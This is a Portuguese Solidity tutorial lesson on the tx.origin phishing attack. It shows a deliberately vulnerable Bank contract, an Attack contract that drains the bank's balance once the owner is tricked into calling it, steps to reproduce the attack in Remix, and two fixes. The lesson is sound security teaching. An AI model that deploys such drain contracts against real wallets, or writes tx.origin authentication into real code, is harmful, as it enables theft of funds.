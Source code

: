 # WTF Solidity: S12. Ataque de Phishing tx.origin

Recentemente, tenho revisado meus conhecimentos em Solidity para consolidar os detalhes e também para escrever um "WTF Solidity Simplificado" para iniciantes (os programadores experientes podem procurar outros tutoriais). Estarei postando de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir o ataque de phishing tx.origin em contratos inteligentes e métodos para prevenir esse tipo de ataque.

## Ataque de Phishing com tx.origin

Quando eu estava no ensino fundamental, gostava muito de jogar videogame, mas os desenvolvedores, para evitar o vício de menores de idade, implementaram uma política em que apenas jogadores com mais de dezoito anos, verificados por meio de um número de identidade, poderiam jogar sem restrições. Como contornar essa política? Eu usei o número de identidade dos meus pais para verificar minha idade e consegui burlar o sistema. Esse caso se assemelha ao ataque de phishing com tx.origin.

No Solidity, o uso de `tx.origin` permite obter o endereço que iniciou a transação e é semelhante ao `msg.sender`. A diferença é que, se o usuário A chamar o contrato B, que por sua vez chama o contrato C, o `msg.sender` em C será o contrato B e o `tx.origin` será o usuário A. Para entender mais sobre o mecanismo de `call`, você pode ler a [S22. Chamada de Função](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md).

Dessa forma, se um contrato bancário usa `tx.origin` para autenticar a identidade, um hacker poderá implantar um contrato malicioso e induzir o proprietário do contrato a chamá-lo. Mesmo que o `msg.sender` seja o endereço do contrato malicioso, o `tx.origin` será o endereço do proprietário do contrato bancário, o que permitirá a realização de transferências.

## Exemplo de Contrato Vulnerável

### Contrato Bancário

Vamos analisar um contrato bancário simples, com uma variável de estado `owner` para registrar o proprietário do contrato. Ele possui um construtor e uma função pública:

- Construtor: atribui o valor de `msg.sender` à variável `owner` durante a criação do contrato.
- `transfer()`: esta função recebe os parâmetros `_to` e `_amount` e verifica se `tx.origin == owner` antes de transferir a quantidade `_amount` de ETH para o endereço `_to`. **Observação: essa função é vulnerável a ataques de phishing!**

```solidity
contract Bank {
    address public owner; // Armazena o proprietário do contrato

    // Atribui o valor de msg.sender à variável owner
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Verifica a origem da mensagem !!! Existe um risco de phishing
        require(tx.origin == owner, "Not owner");
        // Transfere ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Contrato Malicioso

Agora, vamos ver o contrato malicioso. Ele possui uma função `attack()` simples, que é usada para realizar o ataque de phishing, transferindo todo o saldo do contrato bancário para o endereço do hacker. O contrato possui duas variáveis de estado: `hacker` e `bank`, que armazenam o endereço do hacker e do contrato bancário a ser atacado, respectivamente.

Ele contém duas funções:

- Construtor: inicializa o endereço do contrato bancário.
- `attack()`: essa função é usada para induzir o proprietário do contrato bancário a chamar o contrato malicioso, que por sua vez chama a função `transfer()` do contrato bancário, verificando se `tx.origin == owner` e transferindo todo o saldo para o endereço do hacker.

```solidity
contract Attack {
    address payable public hacker;
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
        hacker = payable(msg.sender);
    }

    function attack() public {
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduzindo no `Remix`

**1.** Defina o `value` como 10 ETH, implante o contrato `Bank` e o endereço do proprietário `owner` será definido como o endereço do contrato implantado.

**2.** Mude para outra carteira, que será usada como a carteira do hacker, informe o endereço do contrato bancário a ser atacado e implante o contrato `Attack`, onde o endereço do hacker será definido como o endereço do contrato implantado.

**3.** Volte para o endereço `owner` e chame a função `attack()` do contrato `Attack`, induzindo a transferência de todo o saldo do contrato `Bank` para o endereço do hacker.

## Métodos de Prevenção

Atualmente, existem duas maneiras de prevenir o ataque de phishing com `tx.origin`:

### 1. Usar `msg.sender` em vez de `tx.origin`

`msg.sender` obtém o endereço do remetente direto da chamada atual ao contrato. Verificando o valor de `msg.sender`, você pode evitar chamadas maliciosas de contratos externos.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verificar `tx.origin == msg.sender`

Se você precisa usar `tx.origin`, verifique se `tx.origin` é igual a `msg.sender` para evitar chamadas maliciosas de contratos externos. Porém, essa abordagem rejeitará qualquer chamada de função feita por outros contratos.

```solidity
function transfer(address payable _to, uint _amount) public {
    require(tx.origin == owner, "Not owner");
    require(tx.origin == msg.sender, "can't call by external contract");
    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

## Conclusão

Nesta lição, abordamos o ataque de phishing com `tx.origin` em contratos inteligentes e métodos para prevenir esse tipo de ataque: usando `msg.sender` em vez de `tx.origin` ou verificando se `tx.origin == msg.sender`. A primeira abordagem é a mais recomendada, pois a segunda rejeitará chamadas de função feitas por outros contratos.

